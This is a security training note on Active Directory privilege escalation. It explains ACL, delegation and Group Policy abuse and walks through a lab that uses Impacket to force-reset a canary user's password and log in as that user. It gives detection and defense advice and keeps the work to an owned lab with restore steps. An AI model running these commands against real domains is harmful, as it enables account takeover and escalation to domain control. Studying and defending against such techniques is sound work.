

# 👑 Active Directory Privilege Escalation

> [!warning] Authorized Active Directory simulation only
> These techniques modify directory objects and can change real permissions. Work in a lab domain you own, act on canary objects, capture before-state, make one reversible change, and restore it. Never modify production directory objects.

## Parent Learning Order
Active Directory Architecture & Enumeration -> Kerberos & NTLM Attacks -> Active Directory Privilege Escalation -> NTLM Relay & Authentication Coercion -> Active Directory Certificate Services Security -> Domain Persistence & Trust Abuse

## Start at Zero: Walking the Graph's Edges

Enumeration drew the AD graph; this leaf is about **walking its edges** — using a permission you have over an object to gain control of the next object, hop by hop, toward Domain Admin. The three most common escalation edge-types all share a root cause: **someone was granted more control over an object than they needed**, and that excess control is an attack primitive.

| Edge type | The excess right | The escalation |
| --- | --- | --- |
| **ACL/ACE abuse** | `GenericAll`, `WriteDACL`, `ForceChangePassword` over an object | Take over that object (reset its password, add yourself to a group) |
| **Delegation abuse** | A machine/account can impersonate others (Kerberos delegation) | Impersonate a privileged user to a service |
| **GPO abuse** | Write access to a Group Policy Object | Push a malicious policy to every machine the GPO applies to |

The unifying insight: AD privilege escalation is rarely an exploit — it is **abusing a legitimate permission that was granted too broadly.** The directory works exactly as designed; the flaw is the over-grant. This is why BloodHound's edges *are* the escalation map.

> [!tip] The analogy, and where it breaks
> AD privesc is like discovering the office intern was accidentally given a master key that also opens the executive floor — no lock was broken, a permission was just over-granted. The analogy breaks on chaining: one over-granted key often opens a room containing *another* key, and another, so the intern reaches the vault through a chain of individually-plausible permissions — a cascade no single physical key mistake produces.

**Prerequisites:** AD architecture & enumeration (the graph), Kerberos/NTLM attacks (for delegation), and Windows ACLs.

## ACL/ACE Abuse: Excess Control Over an Object

Every AD object has an ACL of ACEs (Access Control Entries) granting principals rights over it. Certain rights are escalation primitives:

- **GenericAll / GenericWrite** — full or broad control; you can reset the object's password, set an SPN (then Kerberoast), or add members if it is a group.
- **WriteDACL** — you can rewrite the object's ACL to grant yourself GenericAll (then do the above).
- **ForceChangePassword** — reset the target user's password without knowing the old one.
- **WriteOwner** — become the owner, then grant yourself rights.

The classic chain: you have `GenericAll` over a user in a privileged group → reset their password → log in as them → inherit their group's rights. BloodHound surfaces these edges directly; this leaf is executing them.

```bash
# abuse ForceChangePassword over a canary user (Linux attacker box, against lab DC)
# you hold this right (found via BloodHound); reset the canary target's password
impacket-changepasswd -newpass 'Reset2026!' corp.lab/canarytarget@10.0.0.10 -reset -altuser canary -altpass 'CanaryPass1' 2>&1 | grep -iE 'success|changed'
```

```text
[*] Password was changed successfully.
```

You reset another user's password using only a delegated right — no knowledge of their old password. If `canarytarget` is in a privileged group, you now control that access. This is ACL abuse: a legitimate right, over-granted, turned into account takeover.

## Delegation Abuse: Impersonation by Design

Kerberos **delegation** lets a service act on a user's behalf (e.g. a web server accessing a database as the logged-in user). Misconfigured, it lets an attacker impersonate *any* user, including a Domain Admin:

- **Unconstrained delegation** — a machine with this can capture the TGT of *any* user who authenticates to it, then impersonate them anywhere. Compromise such a machine and coerce a DA to authenticate (see the coercion leaf) → full domain.
- **Constrained delegation** — a service can impersonate users to *specific* services; abuse can reach those services as a privileged user.
- **Resource-Based Constrained Delegation (RBCD)** — if you can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on a computer (a GenericWrite edge), you configure delegation *to yourself* and impersonate any user to that machine.

RBCD is the modern favorite because it chains directly from an ACL edge: GenericWrite over a computer → configure RBCD → impersonate Administrator to that computer → local admin.

## GPO Abuse: Mass Control

A **Group Policy Object** configures every machine (or user) in the OUs it is linked to. Write access to a GPO is therefore control over *all those machines at once*: add a scheduled task, a startup script, or a local-admin membership via the GPO, and it deploys everywhere the GPO applies. A single over-permissive GPO ACL can mean domain-wide code execution — the highest-leverage ACL edge because its blast radius is every affected machine.



## Failure Modes and Interpretation

- **Modifying real objects.** These techniques *change* the directory (reset passwords, rewrite ACLs, edit GPOs). Act only on canary objects, capture before-state, and restore — an un-restored password reset locks out a real user.
- **Edge is a hypothesis.** BloodHound's `GenericAll` edge must be validated — deny ACEs, protected-object (AdminSDHolder) protections, and inheritance can negate it. Test before concluding.
- **Delegation nuance.** Unconstrained vs. constrained vs. RBCD behave differently and need different techniques; misidentifying the delegation type wastes effort.
- **GPO blast radius.** A GPO change deploys widely and fast — extreme care in a lab, and never in production without explicit, narrow authorization.
- **Protected accounts.** Members of protected groups have AdminSDHolder-enforced ACLs that revert changes; an ACL edge to them may not persist.

## Security Implications — Detection & Defense

- **Least privilege on ACLs is the core defense.** Audit and remove excess ACEs (GenericAll/WriteDACL/ForceChangePassword) over privileged objects — these are the edges BloodHound finds, and removing them cuts the paths. Attack-path management is exactly this, done proactively.
- **Constrain or remove delegation:** eliminate unconstrained delegation, scope constrained delegation tightly, and protect who can write the RBCD attribute on computers. Mark sensitive accounts "not delegable."
- **Restrict GPO edit rights** to a small, tiered group, and monitor GPO changes closely — a GPO edit is a mass-deployment event.
- **Tiered administration** prevents the credential exposure and cross-tier edges that make chains reach Domain Admin.
- **Detection:** directory object modifications (event 5136), password resets, ACL changes, and GPO edits are high-value signals — an ACL rewrite on a privileged object or an unexpected GPO change is the escalation signature.

## Authorized Lab: Abuse an ACL Edge on a Canary Object

> [!info] Requires a Windows AD lab you own with a canary user you hold GenericAll/ForceChangePassword over; attacker from Linux w/ Impacket
> All synthetic. Capture before-state, make one reversible change, restore it. Step 5 restores.

### Step 1 — Confirm the edge exists (you have the right over the canary target)

```bash
# BloodHound (from the enumeration leaf) showed: canary --ForceChangePassword--> canarytarget
echo "Edge from BloodHound: canary -> ForceChangePassword -> canarytarget (member of 'Helpdesk Admins')"
echo "This is the hypothesis; the next step validates it by exercising the right on the CANARY target."
```

```text
Edge from BloodHound: canary -> ForceChangePassword -> canarytarget (member of 'Helpdesk Admins')
This is the hypothesis; the next step validates it by exercising the right on the CANARY target.
```

### Step 2 — Capture before-state

```bash
# confirm current access as the target fails (we don't know its password yet)
impacket-smbclient corp.lab/canarytarget:'wrongpass'@10.0.0.20 2>&1 | grep -iE 'error|logon' | head -1
```

```text
[-] SMB SessionError: STATUS_LOGON_FAILURE
```

We cannot authenticate as `canarytarget` — the before-state. The ACL edge is about to change that without knowing the password.

### Step 3 — Exercise the ACL right (reset the canary target's password)

```bash
impacket-changepasswd -newpass 'Reset2026!' corp.lab/canarytarget@10.0.0.10 -reset -altuser canary -altpass 'CanaryPass1' 2>&1 | grep -iE 'success|changed'
```

```text
[*] Password was changed successfully.
```

Using only the `ForceChangePassword` right, we reset `canarytarget`'s password — account takeover via an over-granted ACL, no old password needed.

### Step 4 — Confirm the escalation, then note the chain

```bash
impacket-smbclient corp.lab/canarytarget:'Reset2026!'@10.0.0.20 <<< 'shares; exit' 2>&1 | grep -A1 Shares | head -2
echo "canarytarget is in 'Helpdesk Admins' -> this take-over advances one hop toward Domain Admin."
```

```text
Shares:
  ADMIN$
canarytarget is in 'Helpdesk Admins' -> this take-over advances one hop toward Domain Admin.
```

We now authenticate as `canarytarget` and inherit its group's access — one edge walked. In a full path, this repeats until Domain Admin.

### Step 5 — Cleanup (restore)

```bash
echo "RESTORE: reset canarytarget's password back (or re-enable the original), and remove any lab changes."
echo "impacket-changepasswd corp.lab/canarytarget ... -reset   # set to the lab's original canary value"
echo "Verify canarytarget access via the new attacker password now fails. Directory returned to before-state."
```

```text
RESTORE: reset canarytarget's password back (or re-enable the original), and remove any lab changes.
impacket-changepasswd corp.lab/canarytarget ... -reset   # set to the lab's original canary value
Verify canarytarget access via the new attacker password now fails. Directory returned to before-state.
```

**What you should now be able to do:** explain AD privesc as abusing over-granted permissions, walk an ACL edge (ForceChangePassword/GenericAll) to take over a canary object, describe delegation abuse (RBCD) and GPO abuse, and restore modified objects.

## Crook → Operator → Root Checkpoint

- **Crook:** Explain why AD privesc is abusing legitimate over-granted permissions rather than exploiting bugs, and name the three edge types.
- **Operator:** Walk an ACL edge to take over a canary object with before/after evidence, and describe how RBCD and GPO write access escalate.
- **Root:** Explain why least-privilege ACLs (attack-path management), constrained delegation, restricted GPO edit rights, and tiered admin cut the paths, and why a BloodHound edge is a hypothesis until validated against deny ACEs and AdminSDHolder.

---
> 🔼 Up: [[Active Directory & Identity Exploitation]]
